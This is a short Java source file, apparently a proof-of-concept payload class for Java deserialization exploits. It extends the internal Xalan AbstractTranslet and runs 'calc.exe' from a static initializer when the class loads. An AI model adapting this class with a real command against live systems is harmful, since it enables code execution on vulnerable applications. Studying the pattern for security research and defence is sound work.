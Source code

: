 ```java
// CalcExample.java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class CalcExample extends AbstractTranslet {
    static{
        try {
            Process process = Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public CalcExample(){
        System.out.println("Calc Example");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

